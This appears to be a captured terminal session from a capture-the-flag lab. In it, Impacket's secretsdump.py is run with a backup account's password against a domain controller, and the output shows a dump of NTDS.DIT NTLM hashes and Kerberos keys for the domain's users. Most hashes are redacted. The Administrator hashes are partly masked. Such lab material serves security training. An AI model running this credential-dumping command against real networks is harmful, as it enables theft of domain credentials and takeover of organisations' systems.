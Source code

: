 ```
┌──(teiiko㉿kali)-[~]
└─$ python secretsdump.py spookysec.local/backup:backup2517860@10.10.1.131
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435xxxxxxxx:0e0363213e37b94221497260xxxxxxxx:::
Guest:501:[REDACTED]:[REDACTED]:::
krbtgt:502:[REDACTED]:[REDACTED]:::
spookysec.local\skidy:1103:[REDACTED]:[REDACTED]:::
spookysec.local\breakerofthings:1104:[REDACTED]:[REDACTED]:::
spookysec.local\james:1105:[REDACTED]:[REDACTED]:::
spookysec.local\optional:1106:[REDACTED]:[REDACTED]:::
spookysec.local\sherlocksec:1107:[REDACTED]:[REDACTED]:::
spookysec.local\darkstar:1108:[REDACTED]:[REDACTED]:::
spookysec.local\Ori:1109:[REDACTED]:[REDACTED]:::
spookysec.local\robin:1110:[REDACTED]:[REDACTED]:::
spookysec.local\paradox:1111:[REDACTED]:[REDACTED]:::
spookysec.local\Muirland:1112:[REDACTED]:[REDACTED]:::
spookysec.local\horshark:1113:[REDACTED]:[REDACTED]:::
spookysec.local\svc-admin:1114:[REDACTED]:[REDACTED]:::
spookysec.local\backup:1118:[REDACTED]:[REDACTED]:::
spookysec.local\a-spooks:1601:[REDACTED]:[REDACTED]:::
ATTACKTIVEDIREC$:1000:[REDACTED]:[REDACTED]:::

[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:[REDACTED]
Administrator:aes128-cts-hmac-sha1-96:[REDACTED]
Administrator:des-cbc-md5:[REDACTED]
krbtgt:aes256-cts-hmac-sha1-96:[REDACTED]
krbtgt:aes128-cts-hmac-sha1-96:[REDACTED]
krbtgt:des-cbc-md5:[REDACTED]
spookysec.local\skidy:aes256-cts-hmac-sha1-96:[REDACTED]
spookysec.local\skidy:aes128-cts-hmac-sha1-96:[REDACTED]
spookysec.local\skidy:des-cbc-md5:[REDACTED]
spookysec.local\breakerofthings:aes256-cts-hmac-sha1-96:[REDACTED]
spookysec.local\breakerofthings:aes128-cts-hmac-sha1-96:[REDACTED]
spookysec.local\breakerofthings:des-cbc-md5:[REDACTED]
spookysec.local\james:aes256-cts-hmac-sha1-96:[REDACTED]
spookysec.local\james:aes128-cts-hmac-sha1-96:[REDACTED]
spookysec.local\james:des-cbc-md5:[REDACTED]
spookysec.local\optional:aes256-cts-hmac-sha1-96:[REDACTED]
spookysec.local\optional:aes128-cts-hmac-sha1-96:[REDACTED]
spookysec.local\optional:des-cbc-md5:[REDACTED]
spookysec.local\sherlocksec:aes256-cts-hmac-sha1-96:[REDACTED]
spookysec.local\sherlocksec:aes128-cts-hmac-sha1-96:[REDACTED]
spookysec.local\sherlocksec:des-cbc-md5:[REDACTED]
spookysec.local\darkstar:aes256-cts-hmac-sha1-96:[REDACTED]
spookysec.local\darkstar:aes128-cts-hmac-sha1-96:[REDACTED]
spookysec.local\darkstar:des-cbc-md5:[REDACTED]
spookysec.local\Ori:aes256-cts-hmac-sha1-96:[REDACTED]
spookysec.local\Ori:aes128-cts-hmac-sha1-96:[REDACTED]
spookysec.local\Ori:des-cbc-md5:[REDACTED]
spookysec.local\robin:aes256-cts-hmac-sha1-96:[REDACTED]
spookysec.local\robin:aes128-cts-hmac-sha1-96:[REDACTED]
spookysec.local\robin:des-cbc-md5:[REDACTED]
spookysec.local\paradox:aes256-cts-hmac-sha1-96:[REDACTED]
spookysec.local\paradox:aes128-cts-hmac-sha1-96:[REDACTED]
spookysec.local\paradox:des-cbc-md5:[REDACTED]
spookysec.local\Muirland:aes256-cts-hmac-sha1-96:[REDACTED]
spookysec.local\Muirland:aes128-cts-hmac-sha1-96:[REDACTED]
spookysec.local\Muirland:des-cbc-md5:[REDACTED]
```